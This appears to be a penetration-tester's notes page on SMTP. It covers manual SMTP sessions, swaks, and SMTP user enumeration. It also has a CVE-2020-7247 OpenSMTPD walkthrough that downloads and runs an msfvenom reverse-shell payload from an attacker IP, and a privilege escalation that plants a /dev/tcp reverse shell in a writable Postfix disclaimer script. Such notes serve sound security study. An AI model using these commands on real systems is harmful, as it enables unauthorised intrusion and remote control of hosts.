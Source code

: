 # SMTP (25,587)

The **Simple Mail Transfer Protocol (SMTP)** is used to **send emails** on ports `25` and `587`. The former is used used mainly for server-to-server email delivery and is often blocked by ISPs to prevent spam. The latter is used by users to send emails through their mail provider and it requires authentication (username & password); it is the modern, secure way to submit outgoing mail.

## Usage

{% tabs %}
{% tab title="Telnet" %}
{% code overflow="wrap" %}
```bash
# Connect to SMTP server
telnet mail.example.com 25
openssl s_client -connect <ip>:587

# Greet the server
HELO attacker.com
# or
EHLO attacker.com          # Extended SMTP (for authentication & more)

# Specify the sender email
MAIL FROM:<sender@example.com>

# Specify the recipient email
RCPT TO:<recipient@example.com>

# Start composing the email message
DATA

# Write email headers and body (end with a single dot '.' on a line)
Subject: Test Email

This is the email body.
.

# Authenticate using base64 encoded username and password (if needed)
AUTH LOGIN
<base64-username>
<base64-password>

# Close the session
QUIT
```
{% endcode %}
{% endtab %}

{% tab title="swaks" %}
The **Swiss Army Knife for SMTP** ([`swaks`](https://www.jetmore.org/john/code/swaks/)) is a CLI tool designed for testing and troubleshooting SMTP servers. It allows full control over the SMTP conversation and supports authentication, TLS, custom headers, attachments, and scripting, making it useful for verifying email server configurations, debugging, and crafting test messages in Red Team or penetration testing scenarios.

{% code overflow="wrap" %}
```bash
swaks --to x1337@hacking.com --from x7331@hacking.com --header "Subject: Hello" --body @body.txt --attach @config.Lib-ms --server 192.168.1.1 --port 25 --auth LOGIN --auth-user x7331@hacking.com --auth-password 'Pass123!'

# Multiple targets
swaks --to $(cat emails.txt | tr '\n' ',') ...
```
{% endcode %}
{% endtab %}

{% tab title="smtp-user-enum" %}
[`smtp-user-enum`](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum) is a CLI tool used to enumerate valid usernames on SMTP servers. It leverages SMTP commands like `VRFY` and `RCPT TO` to test for user existence, helping penetration testers identify valid email accounts for further attack stages such as phishing or password guessing.

{% code overflow="wrap" %}
```bash
smtp-user-enum -M VRFY -U usernames -t <target-IP>
```
{% endcode %}

The users can be validated manually via POP3 (`110`) and/or IMAP (`143`):

```bash
# Verify users via POP3
$ telnet <target-IP> 110

USER x7331
+OK # User exists
PASS test
-ERR [AUTH] Authentication failed. # Invalid password
USER x7331
+OK
PASS Passw0rd123!
+OK Logged in. # Valid password

# Validate users via IMAP
$ telnet <target-IP> 143

a1 LOGIN x7331 Passw0rd123!
a1 OK [CAPABILITY ... SPECIAL-USE] Logged in # Valid creds
```
{% endtab %}
{% endtabs %}

## Servers

### OpenSMTPD - RCE

OpenSMTPD is a free and open-source mail transfer agent (MTA) developed as part of the OpenBSD project. Designed with security and simplicity in mind, it implements the SMTP to handle the sending and receiving of email. OpenSMTPD aims to provide a secure and easy-to-audit alternative to more complex MTAs. It is commonly deployed on Unix-like systems and is known for a minimal codebase, privilege separation, and strict adherence to secure coding practices.

**OpenSMTPD versions from 6.4 to 6.6.1** are vulnerable to [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247) and allows **RCE** as `root` via specially crafted SMTP messages. The issue arises from **improper input validation** in the `smtpctl` or `mail-from` handling logic, where attacker-supplied input is passed directly to a shell without sanitization. By sending a maliciously crafted email address, arbitrary shell commands can be executed on the target system with elevated privileges.

{% code overflow="wrap" %}
```bash
$ searchsploit OpenSMTPD
OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py

# Create reverse shell payload
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=25 -f elf -o revshell.elf

# Transfer malicious file
$ python3 47984.py bratarina 25 "wget 192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Assign execute permissions
 python3 47984.py bratarina 25 "chmod +x /tmp/revshell.elf && ./tmp/revshell.elf"
                                                                                                                                                                                                                 
# Execute the file                                                                                                                                                                                                                           
$ python3 47984.py bratarina 25 "/tmp/revshell.elf" 
```
{% endcode %}

### PostFix

Postfix is a MTA used on Unix-like systems to route and deliver email. It typically operates on TCP port `25` and is **widely deployed as a default mail server** due to its speed, ease of configuration, and security features.

## Disclaimer Files

A disclaimer file in the context of SMTP email systems is typically a plaintext, bash script, or HTML-formatted message **automatically appended to the body of outbound emails**. It is most commonly used to attach legal warnings, confidentiality notices, or company branding. These disclaimers are not a function of the SMTP protocol itself, but are implemented through external tools or content filters that process outgoing mail before it reaches the final MTA.

In practice, these disclaimers are inserted using mail filters or milter-compatible tools like `altermime`, `MIMEDefang`, or `Amavis`, often integrated into MTAs such as Postfix, Exim, or Sendmail. The disclaimer content is usually stored in a local file, and its location depends on the specific configuration of the mail system. Common paths include `/etc/postfix/disclaimer.txt`, `/usr/local/etc/disclaimer.txt`, or within a custom script or filter directory.

{% code overflow="wrap" %}
```bash
# Sending an email
swaks --to targetEmail@domain.com --from x7331@domain.com --header "Disclaimer file" --body @body.txt --server <target-IP> --port 25

# Inspecting what's happening with pspy, i.e., disclaimer file automatically appended
$ ./pspy64
2025/07/26 15:33:12 CMD: UID=997   PID=38173  | pipe -n dfilt -t unix flags=Rq user=filter argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
2025/07/26 15:33:12 CMD: UID=997   PID=38174  | /bin/bash /etc/postfix/disclaimer -f x7331@domain.com -- targetEmail@domain.com
```
{% endcode %}

If writable access is available, it can be leveraged for PE:

{% code overflow="wrap" %}
```bash
# Check what files the group have permissions on
$ find / -group filter 2>/dev/null
/etc/postfix/disclaimer

# Linpeas can also highlight it
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
  Group filter:
/etc/postfix/disclaimer

# Insert reverse shell code to the file
$ head /etc/postfix/disclaimer
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.170/80 0>&1
```
{% endcode %}

On the next email sent, the reverse shell code will be executed.
